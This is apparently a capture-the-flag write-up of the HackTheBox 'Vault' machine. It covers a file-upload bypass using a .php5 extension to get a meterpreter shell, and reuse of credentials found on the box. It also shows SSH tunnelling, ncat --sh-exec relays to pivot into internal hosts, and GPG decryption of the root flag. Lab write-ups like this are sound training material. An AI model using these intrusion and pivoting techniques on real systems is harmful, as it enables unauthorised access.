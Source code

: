 ```yaml
---
layout: post
title:  "HackTheBox :: Vault"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```

Vault is easily one of my favourite boxes on hackthebox. It taught me a lot about tunneling and moving through a network any way possible. This is one of the boxes i got truely stuck into for days and could not stop thinking about what the next move was.

# Initial Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host
```

# First webapp
The initial webapp doesnt give too much away but what it does say is enough. 
```
Welcome to the Slowdaddy web interface
We specialise in providing financial orginisations with strong web and database solutions and we promise to keep your customers financial data safe.
We are proud to announce our first client: Sparklays (Sparklays.com still under construction) 
```

We can infer from this that 'sparklays' will be a directory, we can add this to our directory bruteforcer to find the relevant files.
/sparklays/admin.php - login prompt
/sparklays/login.php - 'access denied'
/sparklays/design/uploads - file upload

# Landing a shell
Testing some file uploads, its clear we cant upload anything with a .php extension, .php5 however, works just fine. Navigating to the page with our file executes and we get our meterpreter session.
The directory listing on the server is as follows:
```
home/alex
home/dave
	servers.txt;
		DNS + Configurator - 192.168.122.4
		Firewall - 192.168.122.5
		The Vault - x
	key.txt;
		itscominghome
	ssh.txt;
		Dav3therav3123
```
# Second webapp
We now have ssh creds for dave. We can now tunnel to access that page we couldnt reach before.
```
ssh -L 8888:192.168.122.4:80 dave@10.10.10.109
```
This page looks to be a testing page for a vpn config. Theres also a /notes directory which contains the following
```
chmod 123.ovpn and script.sh to 777
```

I found this handy guide on the best way to exploit this vpn testing page for code execution (link)

We can use nc as a listener on daves system because where in the dns. Now we land as root @ dns and we can get the user flag.

Theres a new ssh file in the dave directory on the dns now. 
```
theres also a ‘ssh’ file in the dave dir
root@DNS:/home/dave# cat ssh
cat ssh
dave
dav3gerous567
```

Looks like a password or something but doesnt work on the initial site. We will have to keep it for later.




# breakpoint 1
At this point, what do we know.
- We are root@dns when we want
- We know there is an alex user
- We have unused passwords;
	- itscominghome
	- dav3gerous567
- We have the address of vault - 192.168.5.2

# Getting to the end

Checking /var/log/auth.log we get an interesting result.
```
root : TTY=unknown ; PWD=/var/www/html ; USER=root ; COMMAND=/usr/bin/ncat -l 1235 --sh-exec ncat 192.168.5.2 987 -p 53
```

From this we get an idea of what we have to do. We have to use netcat to inject another netcat for us to connect to.

```
sudo ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53" &
use the ampersand to background it
ssh dave@192.168.122.4 -p 1234
    
we get in
    
dave@vault:~$ ls
root.txt.gpg
```

We have our root flag right here but we cant decrypt yet.
We will have to move it from vault > dns > ubuntu.

# Root flag
oh jeez, weve come this far, and now we need to go back.
We have a GPG encrypted file (root flag) but the key is on the first system, since gpg works the way it works, we have to move it to that first system where the key is.
I chose to move the file with scp but in hindsight there was probably a better way of doing this.
```
dave@DNS:/tmp$ scp -P 1331 dave@192.168.122.4:/home/dave/root.txt.gpg /tmp
The authenticity of host '[192.168.122.4]:1331 ([192.168.122.4]:1331)' can't be established.
ECDSA key fingerprint is SHA256:Wo70Zou+Hq5m/+G2vuKwUnJQ4Rwbzlqhq2e1JBdjEsg.
Are you sure you want to continue connecting (yes/no)? yse
Please type 'yes' or 'no': yes
Warning: Permanently added '[192.168.122.4]:1331' (ECDSA) to the list of known hosts.
dave@192.168.122.4's password: 
root.txt.gpg                                                                                                                                      100%  629     0.6KB/s   00:00    
[1]+  Done                    sudo ncat -l 1331 --sh-exec "ncat 192.168.5.2 987 -p 4444"

dave@ubuntu:~$ scp dave@192.168.122.4:/tmp/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                                                                                                                                      100%  629     0.6KB/s   00:00    
dave@ubuntu:~$ gpg -d root.txt.gpg

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
<flag redacted>
```
Once back on the first system and decoding the flag, gpg asks for a password and weve had it all this time
Decrypting with the key gives us our flag to submit.





